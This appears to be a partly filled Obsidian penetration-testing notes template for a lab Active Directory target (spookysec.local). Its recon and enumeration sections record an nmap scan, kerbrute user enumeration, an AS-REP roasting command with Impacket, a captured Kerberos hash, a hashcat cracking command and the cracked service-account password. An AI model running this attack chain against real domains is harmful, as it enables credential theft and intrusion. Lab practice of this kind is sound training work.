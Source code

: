 Use this template in Obsidian to register your findings per target.

---
## 🖥️ Target System: `IP/Hostname`

IP - 10.10.130.140

<summary>1. 🧭 Initial Reconnaissance</summary>

- **Tools Used**: 
- **Host Discovery**:
  - Was the host alive? (Yes/No)
  - Ping Response:

![[Pasted image 20250630150742.png]]

- **Port Scan Results**:

```
nmap -Pn -n -T4 -sCV 10.10.193.236
```

-n does not make names resolution

  - Open Ports:
  - Service Versions:
  - OS Detection:

![[port_scan 4.txt]]

![[Pasted image 20250630151739.png]]

---

<summary>2. 📂 Enumeration</summary>

- **Ports/Services Analyzed**: 
- **Tools Used**: kerbrute
- **Findings**:
  - Directories found:
  - Enumerated users/accounts:
used: kerbrute userenum -d spookysec.local --dc 10.10.130.140 users.txt 

2025/06/30 15:40:20 >  [+] VALID USERNAME:	 james@spookysec.local
2025/06/30 15:40:22 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
2025/06/30 15:40:24 >  [+] VALID USERNAME:	 James@spookysec.local
2025/06/30 15:40:24 >  [+] VALID USERNAME:	 robin@spookysec.local
2025/06/30 15:40:31 >  [+] VALID USERNAME:	 darkstar@spookysec.local
2025/06/30 15:40:35 >  [+] VALID USERNAME:	 administrator@spookysec.local
2025/06/30 15:40:43 >  [+] VALID USERNAME:	 backup@spookysec.local
2025/06/30 15:40:47 >  [+] VALID USERNAME:	 paradox@spookysec.local
2025/06/30 15:41:13 >  [+] VALID USERNAME:	 JAMES@spookysec.local
2025/06/30 15:41:21 >  [+] VALID USERNAME:	 Robin@spookysec.local
2025/06/30 15:42:11 >  [+] VALID USERNAME:	 Administrator@spookysec.local


using Impacket:

```
GetNPUsers.py spookysec.local/ -no-pass -usersfile users.txt -dc-ip 10.10.130.140 -request
```

got svc-admin hash

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:60b1ba7cb12aae2ef5d069fb179fa0cf$7386686db49d629b65426764205f28f9d611076740e030eba727ee87f74e80e621d0fec856619ff7532e6b7b45c126b0f745a31facd7b2b9fd9fdf986a112e978d3224fe634232d9a7bd699d8ec1aa7c87f9787bec3fcc8c2e0adde43980cfbee6ee59edab2bb16be6f5e8a476f7270f59e90bc669d6937be2476095934969f89590bcd867f2e983edd9ebb27bc81bc853e133c83955b8d62d8e09caca9c70584e8b579b96de08c44c7ed09e4a42884983fe0a000ee2a4c0bb7e70d9215e14402ca06a28217cd645d0e1dc854cd72f67b3386b0f3c62853b837bb45e7b85fd966cbdd9c8fa85dbacc79d13995f63b7f8b483

using hashcat:  

```
hashcat -m 18200 hash.txt passwords.txt 
```

got
- username: svc-admin
- password: management2005

  - Software versions:
- **Screenshots/Proof**:

![[Pasted image 20250630160138.png]]

---

<summary>3. 🚨 Vulnerability Analysis</summary>

- **Identified Vulnerabilities**:
  - Description:
  - CVE/Exploit DB Ref:
- **Tool(s) Used**: 
- **Proof/Output**:
  - Command results, error messages, etc.

---


<summary>4. 💣 Exploitation</summary>

- **Tool(s) Used**:
- **Exploit/Payload**:
  - Command:
- **Result**:
  - Got Shell? User Access?
- **Post-Exploitation Notes**:
  - E.g., accessed user.txt
- **Proof**:
  - ![[proof-shell.png]]
---

<summary>5. 🪜 Privilege Escalation</summary>

- **Initial Access Level**:
- **Techniques Tried**:
  - E.g., sudo -l, linPEAS, SUID checks
- **Success Path**:
  - Commands used:
- **Root Access?** (Yes/No)
- **Proof**:
  - ![[proof-root.png]]
---

<summary>6. 🗃️ Post-Exploitation</summary>

- **Files/Flags Accessed**:
- **Sensitive Data Found**:
  - Passwords, config files:
- **Users Compromised**:
- **Persistence (if tested)**:

---

<summary>7. 📓 Lessons Learned</summary>

- **What Worked**:
- **What Didn’t**:
- **To Improve**:

---

<summary>8. 📎 Appendix</summary>

- Screenshot Links:
  - ![[example.png]]
- Full Command Logs:
  - Use code blocks for clarity:
    ```bash
    command here
    output here
    ```
- Exploit Code Used:
  ```python
  # Sample exploit
